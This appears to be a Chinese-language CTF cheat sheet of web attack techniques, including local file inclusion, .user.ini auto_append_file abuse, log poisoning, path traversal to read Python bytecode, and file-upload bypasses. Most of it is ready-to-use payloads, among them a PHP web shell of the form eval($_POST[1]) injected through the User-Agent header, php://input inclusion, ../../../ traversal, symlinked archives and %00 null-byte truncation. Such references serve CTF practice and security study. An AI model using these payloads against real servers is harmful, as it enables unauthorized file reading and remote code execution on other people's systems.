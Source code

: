 [实战 | 文件上传漏洞之最全代码检测绕过总结](https://mp.weixin.qq.com/s/6ArBgNYpsQH7WkaaJY6GfQ)

# LFI/文件包含

| Name                                                   | payload                                                    |     |
| ------------------------------------------------------ | ---------------------------------------------------------- | --- |
| `?file=index` 或 `?file=index.php` 有可能需要去掉 .php |                                                            |     |
| PHP_INCLUDE_TO_SHELL_CHAR_DICT                         |                                                            |     |
| glob://                                                |                                                            |     |
| 日志包含                                               | 1.抓包修改 Agent 访问 2.包含日志 /var/log/nginx/access.log |
| 使用 [.user.ini](#userini) 进行包含                    | auto_append_file=2.jpg                                     |

## .user.ini

相当于 `include('xx.txt')`

| Desc           | .user.ini                                    | payload                                                                                |
| -------------- | -------------------------------------------- | -------------------------------------------------------------------------------------- |
| 包含 post 数据 | `auto_append_file=php://input`               | url:`index.php` <br>body: `<?php phpinfo();?>`                                         |
| 日志包含       | `auto_append_file=/var/log/nginx/access.log` | url:`index.php` <br> body: `1=phpinfo();`<br>usUser-Agent: `<?php eval($_POST[1]);?> ` |

# Python

```sh
/download?file=../../../app/__pycache__/part.cpython-311.pyc
```

# 文件上传

- 压缩包软链接，传到/tmp/data 下, ，这个软链接指向 flag，即可获取 flag
- %00 截断 php版本小于5.3.4
